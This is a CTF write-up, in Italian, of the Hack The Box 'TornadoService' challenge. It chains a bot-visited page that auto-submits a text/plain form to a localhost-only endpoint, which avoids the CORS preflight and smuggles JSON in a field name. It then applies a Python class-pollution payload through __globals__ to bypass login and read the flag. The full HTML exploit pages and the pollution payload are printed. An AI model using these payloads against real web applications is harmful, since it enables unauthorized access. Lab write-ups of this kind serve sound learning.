







# TornadoService HTB challenge WRITEUP
[Exploit.py](Exploit/exploit-server.py) Made by: [Gianlush](https://github.com/Gianlush/)

## step 1: analisi codice
Dal codice sorgente si nota immediatamente la classe `ProtectedContentHandler` all'interno del `main.py` che restituisce direttamente la flag per superare la challenge. Tuttavia, per potere visitare l'endpoint correlato: `/stats` è necessario essere loggati. 

Un'altro endpoint interessante è `/report_tornado` che consente di inviare un indirizzo IP il quale verrà visitato da un BOT, il che fa subito pensare ad una possibile **SSRF**. Il metodo che gestisce l'endpoint `/update_tornado` è consentito solo in **localhost**, che nell'ottica della challenge potrebbe servire a nascondere un comportamento particolare che si potrebbe testare con una **SSRF**.



## step 2: tentativo di SSRF
Semplicemente inviato nella report l'indirizzo IP di un proprio webhoook, si nota che effettivamente il BOT visita tale URL, perciò potrebbe essere possibile fare il setup di un server che restituisca una pagina del tipo:
```html
<html>
  <body>
    <script>
        const data = {
            machine_id: "host-1234",
            ip_addres: "0.0.0.0",
            status: 'something'
        };
      fetch('http://127.0.0.1:1337/update_tornado', {
                method: 'POST', 
                headers: {
                    'Content-Type': 'application/json' 
                },
                body: JSON.stringify(data)
            });
    </script>
  </body>
</html>
```
si potrebbe accedere alle funzionalità dell'endpoint `update_tornado`. Tuttavia, analizzando il comportamento della challenge sul docker in locale, si nota che a seguito di questo tentativo di attacco viene automaticamente inviata una OPTIONS request:



## step 3: studio problematica

Indagando meglio sul tipo di richiesta, ho scoperto che, poichè la `/update_tornado` generata dal BOT quando visita il mio server è una richiesta **CROSS-ORIGIN**, il che causa l'invio automatico di una richiesta OPTIONS chiamata **[preflight](https://medium.com/@vedvyasio/understanding-preflight-requests-in-web-development-af1ab91ad903)**.
Dato che il server non ha nessun Handler che gestisca le richiesta di tipo OPTIONS, il flusso viene interrotto. La Preflight request serve ad 'avvisare' il server del tipo di richiesta che sta ricevendo e fargli generata una risposta all'interno della quale vengono indicate il tipo di richieste consentite (quali header, quali metodi ...).
Il server, però, è configurato per accettare richieste da qualsiasi origine, come si può notare nel `main.py`:



Perciò il reale obbiettivo non è quello di bypassare le CORS policy, bensì quello di evitare l'invio della preflight requests (superflua in questo caso) che, non essendo gestita, blocca il flusso dati.

Chiedendo affidamento al buon ChatGTP, ho ricavato un insieme di possibili soluzioni alla problematica:




## step 4: tentativo di SSRF 2.0

Tenendo a mente che la preflight viene inviata anche quando sono presenti determinati header, quali `Content-Type: application/json` ed altri, ho iniziato a testare alcuni di questi payload, fino a trovare il seguente (funzionante):

```html
<html>
  <body>
    <form
      action="http://127.0.0.1:1337/update_tornado"
      method="POST"
      enctype="text/plain"
    >
    <input
        type="hidden"
        name='some'
        value='thing'
    />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```

In questo modo si può vedere dai log del Docker, che non viene ricevuta una richiesta OPTIONS ma direttamente la POST da noi voluta. Non ho trovato nessun modo per inviare un JSON nel body senza causare errori, quindi ho dovuto escogitare un modo alternativo. Tenendo presente che questa richiesta viene ricevuta nel seguento modo:



Non potendo inviare banalmente un payload del genere:

`name='{"machine_id": "host-3615","ip_address": "0.0.0.0","status": "something"}'`

`data=''`

Perchè altrimenti il campo **data** avrebbe 'rotto' il json: `'{"machine_id": "host-3615","ip_address": "0.0.0.0","status": "something"}'=...`

Dopo qualche esperimento ho realizzato di poter spezzare il Json e far sparire il il `= ` in questo modo:

### agent_details.html
```html
<html>
  <body>
    <form
      action="http://127.0.0.1:1337/update_tornado"
      method="POST"
      enctype="text/plain"
    >
      <input
        type="hidden"
        name='{"machine_id": "host-3615","ip_address": "0.0.0.0","status": "something", "a":"'
        value='"}'
      />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```

In questo modo il payload della request risulta:

`'{"machine_id": "host-3615","ip_address": "0.0.0.0","status": "something", "a":"="}`

Ed effettivamente funziona come si può vedere:



## step 5: Class Pollution 

A questo punto, seguendo il flusso dati a partire da `UpdateTornadoHandler` si arriva all'esecuzione di una funzione un po' particolare, tramite la quale si 'deserializza' l'oggetto Tornado per poterlo aggiornare:



Codice che ricorda molto esempi di [Class Pollution vulnerability](https://book.hacktricks.xyz/generic-methodologies-and-resources/python/class-pollution-pythons-prototype-pollution), da cui si ricava molto facilmente un payload del genere:

`{'__class__':{'__init__':{'__globals__':{'NotAccessibleClass':{'variable':'polluted_variable'}}}}}`

che consetirebbe di accedere a Classi normalmente non accessibili, e crearvi nuove variabili o modificarne alcune già esistenti. Questa cosa tornerebbe parecchio utile se si riuscisse a modificare il valore di `self.get_secure_cookie("user")` a `True` così da poter accedere al endpoint `/stats` ed ottenere la flag.

Riadattando il file [agent_details.html](#agent_detailshtml) si ottiene il seguente:

```html
<html>
  <body>
    <form
      action="http://127.0.0.1:1337/update_tornado"
      method="POST"
      enctype="text/plain"
    >
      <input
        type="hidden"
        name='{"machine_id": "host-3546","ip_address": "0.0.0.0","status": "something", "__class__": {"__init__":{"__globals__":{"ProtectedContentHandler": {"current_user": "true" }}}},"a":"'
        value='"}'
      />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```

Non resta dunque che settare un server che hosti questi file, ottenere un IP pubblico (tramite port forwarding ad esempio) e far sì che il BOT visita il proprio server cos' configurato affinchè ci 'sblocchi' l'accesso all'endpoint `/stats`.